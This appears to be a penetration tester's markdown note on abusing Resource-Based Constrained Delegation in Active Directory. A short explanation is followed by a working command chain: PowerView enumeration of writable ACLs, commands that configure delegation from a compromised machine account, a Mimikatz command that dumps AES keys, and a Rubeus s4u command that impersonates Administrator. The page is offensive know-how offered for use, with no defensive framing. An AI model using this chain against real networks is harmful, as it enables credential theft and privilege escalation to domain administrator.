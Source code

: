 ```yaml
---
tags:
  - privesc
cssclasses:
  - Rubeus
  - s4u
  - MimiKatz
  - ActiveDirectory Module
---
```

- Resource Based [[Constrained Delegation]]
- This moves delegation authority to the resource/service administrator
- Instead of SPNs on msDs-AllowedToDelegateTo on the front-end service like the web service in our example, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service.
- That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.
- The security descriptor on the second hop can determine who can access it, not the first hop.

To abuse RBCD in the most effective form, we just need two privileges
1. Write permissions over the target service or object to configure msDs-AllowedtoActOnBehalfOfOtherIdentity
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-machineQuota is 10 for all domain users)

```powershell title:"Enumeration that shows users with Write permissions"
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'username'}
```

```powershell title:"Check for RBCD"
Get-DomainRBCD
```

```powershell title:"Configure RBCD on a machine for users (PowerView)"
Set-DomainRBCD -Identity computer-name -DelegateFrom your-foothold
```

```powershell title:"Configure RBCD on a machine for users (ActiveDirectory Module)"
$machine_accounts = 'pwned-machine-account1$', 'pwned-machine-account2$'
Set-ADComputer -Identity computer-name -PrincipalsAllowedToDelegateToAccount $machine_accounts
```

```powershell title:"Get the privileges of the machine accounts by extracting its AES keys"
Invoke-MimiKatz -Command '"sekurlsa::ekeys"'
```

```batch title:"Use the AES key of the machine account(s) and access computer-name with ANY user we want"
Rubeus.exe s4u /user:machine-account1$ /aes256:<aes256_key> /msdsspn:service/computer-name /impersonateuser:Administrator /ptt
```




